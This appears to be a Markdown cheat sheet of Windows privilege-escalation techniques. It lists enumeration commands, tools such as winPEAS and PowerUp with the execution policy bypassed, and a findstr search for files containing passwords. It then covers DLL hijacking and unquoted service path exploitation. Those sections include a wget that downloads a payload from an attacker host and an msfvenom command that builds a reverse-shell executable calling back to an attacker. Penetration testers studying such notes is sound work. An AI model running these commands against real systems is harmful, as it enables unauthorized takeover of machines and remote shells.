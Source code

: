 # Methodology

1. Enumerate the current user's privileges and resources it can access

2. If the antivirus software allows it, run an automated enumeration script such as winPEAS or PowerUp.ps1

3. If the initial enumeration and scripts do not uncover an obvious strategy, try a different approach


---

# Enumeration

## Tools

1. WinPEAS -> enumerate the target system to uncover privilege escalation paths. (Windows Defender detects and disables WinPEAS

```powershell
$ winpeas.exe > result.txt
```

2. PowerUp -> PowerShell script that searches common privilege esacaltion on the target system. **Need to bypass the execution policy restrictions.**

```powershell
$ powershell.exe -nop -exec bypass
```

```powershell
$ Import-Mode PowerUp.ps1
$ Invoke-AllChecks
```

3. Windows Exploit Suggester -> Some exploit scripts will require you to upload them to the target system and run them there.

```powershell
# Update db
$ windows-exploit-suggester.py –update
```

```powershell
# Usage
$ windows-exploit-suggester.py --database <yyyy-mm-dd>-mssb.xls --systeminfo result.txt
```

4. Metasploit -> Some module can list vulnerabilities

```bash
multi/recon/local_exploit_suggester
```

## User enumeration

```powershell
# List current user's privileges
$ whoami /priv

# List users
$ net users

# Details about user
$ net user <user>
$ net user Administrator

# User(s) logged in simultaneously
$ qwinsta
$ query session

# List locals groups
$ net localgroup

# Details about group
$ net localgroup <groupname>
$ net localgroup Adlinistrators
```

## System information

```powershell
# Get informationsss
$ systeminfo

# OS Version
$ systeminfo | findstr /B /C:"OS Name" /C:"OS Version"

# Hostanme 
$ hostname
```

## Search files

```powershell
# Find files with this pattern : password and .txt extension
findstr /si password *.txt

# Good extensions are : .txt, .xml, .ini, .config, .xls
```

## Patch level

```powershell
# Get patch applied on the system
$ wmic qfe get Caption,Description,HotFixID,InstalledOn
```

## Network connections

```powershell
# List all listened ports
$ netstat -ano
```

## Scheduled tasks

```powershell
# List all scheduled tasks
$ schtasks /query /fo LIST /v
```

## Drivers and applications

```powershell
# List all installed drivers
$ driverquery

# Dump information about installed software
$ wmic product
$ wmic product get name,version,vendor

# BETTER WAY
$ wmic service list brief

# Only running
$ wmic service list brief | findstr  "Running"

# Get more information about service
$ sc qc <service>
$ sc qc RemoteMouseService
```

## Antivirus

```powershell
# Check Windows Defender status
$ sc query windefend
$ Get-MpComputerStatus
$ (Get-Service windefend).Status
$ Get-Service | where {$_.DisplayName -Like "*Defender*"} | Select Status.DisplayName

# Check services (find any antivirus in this list)
$ sc queryex type=service
```

---

# Exploitation

## DLL Hijacking

**Conditions :**

1. An application that uses one or more DLL files.
2. A way to manipulate these DLL files.

If SafeDllSafeMode is enabled, the search order is as follow :

1. The directory from which the application loaded
2. The system diretory. Use ```powershell GetSystemDirectory ``` function to get the path of this directory.
3. The 16-bit directory.
4. The Windows directory. Use ```powershell GetWindowsDirectory ``` function to get the path of this directory.
5. The current directory.
6. The directories listed in the PATH environment variable.

If SafeDllSearchMode is disabledn the search order is as follow :

1. The directory from which the application loaded
2. The current directory
3. The system diretory. Use ```powershell GetSystemDirectory ``` function to get the path of this directory.
4. The 16-bit directory.
5. The Windows directory. Use ```powershell GetWindowsDirectory ``` function to get the path of this directory.
6. The directories listed in the PATH environment variable.

If the current user permit to write to any folder in the search order, we can have a possible DLL hijacking vulnerability.

**Finding DLL Hijacking vulnerabilities**

Tool : Process Monitor (ProcMon)

**Generate DLL file**

```bash
# Install mingw compiler
$ apt install gcc-mingw-w64-x86-64

# Generate DLL file
$ x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll

# Download DLL file on the target
$ wget -O <file_name>.dll <attacker_ip>:<port>/<file_name>.dll
```

```powershell
# Stop and start dllsvc
$ sc stop dllsvc & sc start dllsvc
```

## Unquoted service path 

**Conditions :**

1. Being able to write to a folder on the path.
2. Being able to restart the service.

**Services enumeration**

```powershell
$ wmic service get name,displayname,pathname,startmode
```

**Check binary path**

```powershell
$ sc qc <service>
# Example
$ sc qc unquotedsvc
```

**Privilege check on the path**

```powershell
.\accesschk64.exe /accepteula -uwdq "<path>"
# Example
.\accesschk64.exe /accepteula -uwdq "C:\Program Files\"
```

**Generate an executable file**

```bash
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=[<attacker_ip> LPORT=<port> -f exe > <executable_name>.exe
```

**Restart service**

```powershell
$ sc start <service>
# Example
$ sc start uquotedsvc
```

